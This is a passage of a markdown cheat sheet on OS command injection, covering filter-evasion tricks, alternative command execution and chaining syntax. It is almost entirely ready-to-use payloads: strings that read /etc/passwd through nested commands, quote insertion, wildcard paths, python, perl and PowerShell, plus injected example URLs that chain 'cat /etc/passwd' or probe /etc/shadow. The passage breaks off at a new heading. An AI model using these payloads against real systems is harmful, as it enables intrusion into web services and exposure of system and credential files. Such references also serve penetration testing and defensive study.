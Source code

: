     - **Filter evasion techniques**
      - Nested commands:
        - Unix: `& $(echo cat) /etc/passwd &`
        - Windows: `& $(echo dir) &`
      - Case manipulation:
        - Unix: `& CaT /etc/passwd &`
        - Windows: `& DiR &`
      - Character insertion (if filtered out):
        - `& c'a't /etc/passwd &`
        - `& c"a"t /etc/passwd &`
      - Path manipulation:
        - Unix: `& /usr/bin/cat /etc/passwd &`
        - Unix: `& /???/b??/c?t /etc/passwd &`
        - Windows: `& %SYSTEMROOT%\System32\cmd.exe /c dir &`
    
    - **Alternative command execution**
      - Using less common utilities:
        - Unix: `& tac /etc/passwd &` (alternative to cat)
        - Unix: `& find /etc -name passwd -exec cat {} \; &`
        - Windows: `& powershell Get-Content C:\Windows\win.ini &`
      - Scripting languages:
        - Unix: `& python -c "import os; print(os.popen('cat /etc/passwd').read())" &`
        - Unix: `& perl -e 'system("cat /etc/passwd")' &`
        - Windows: `& powershell -c "Get-Content C:\Windows\win.ini" &`
  
  - **Command chaining and injection syntax**
    
    - **Command separators**
      - Works on both Unix and Windows:
        - `&` - Run commands in background
        - `&&` - Run second command if first succeeds
        - `|` - Pipe output of first command to second
        - `||` - Run second command if first fails
      - Unix-specific:
        - `;` - Run commands sequentially
        - Newline (`%0A`) - Run commands sequentially
      - Example: `https://example.com/ping?host=8.8.8.8 && cat /etc/passwd`
    
    - **Command substitution**
      - Unix syntax:
        - Backticks: ``` `command` ```
        - Modern syntax: `$(command)`
      - Windows syntax:
        - `for /f "tokens=*" %i in ('command') do echo %i`
      - Example: `https://example.com/ping?host=`whoami``
    
    - **Logic operators**
      - Examples:
        - `[ condition ] && command` - Execute if condition is true
        - `[ condition ] || command` - Execute if condition is false
        - `if [ condition ]; then command; fi` - Conditional execution
      - Example: `https://example.com/ping?host=8.8.8.8 && [ -f /etc/shadow ] && echo "Shadow exists"`

- **OS command injection on different platforms**
  